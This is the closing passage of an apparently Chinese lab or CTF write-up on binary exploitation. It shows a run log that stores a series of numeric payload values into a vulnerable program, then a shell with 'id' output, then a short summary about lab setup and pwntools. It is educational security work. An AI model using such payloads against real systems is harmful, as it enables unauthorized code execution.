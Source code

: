 ```
 Index: 10
 Completed store command successfully
Input command: 2425358059
 Failed to do 2425358059 command
Input command: store
 Number: 2425358059
 Index: 11
 Completed store command successfully
Input command: store
 Number: 196133513
 Index: 13
 Completed store command successfully
Input command: store
 Number: 2425358059
 Index: 14
 Completed store command successfully
Input command: store
 Number: 3224469709
 Index: 16
 Completed store command successfully
Input command: store
 Number: 2425358059
 Index: 17
 Completed store command successfully
Input command: store
 Number: 2424360256
 Index: 19
 Completed store command successfully
Input command: quit
$ id
uid=1000(larry) gid=1000(larry) groups=1000(larry),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
$ exit
```

# 0x03 总结

下来想想如果直接搭建官方提供的虚拟机去做lab题目，环境相关的问题应该比另起炉灶少很多，另外在64位系统上使用pwntools exploit 32位程序也是可以[试试的](https://www.anquanke.com/post/id/85138)。

[1]: https://wx2.sinaimg.cn/thumb50/ee2fecafly1fown1sqkxsj20k3054aao.jpg
[2]: https://wx2.sinaimg.cn/thumb50/ee2fecafly1fown1tewd6j20k103274i.jpg
[3]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1u64qqj20k404yjrw.jpg
[4]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1utbtbj20jz032glt.jpg
[5]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1w7uo1j20jz031jrr.jpg
[6]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1wyv1aj20k0042dga.jpg
[7]: https://wx3.sinaimg.cn/thumb50/ee2fecafly1fown1y6sylj20k1087gmv.jpg
[8]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown1z5w0nj20k40623z9.jpg
[9]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown2000xuj20k007ggm7.jpg
[10]: https://wx3.sinaimg.cn/thumb50/ee2fecafly1fown20tsxlj20k203jmxj.jpg
[11]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown21yps7j20k5042q3i.jpg
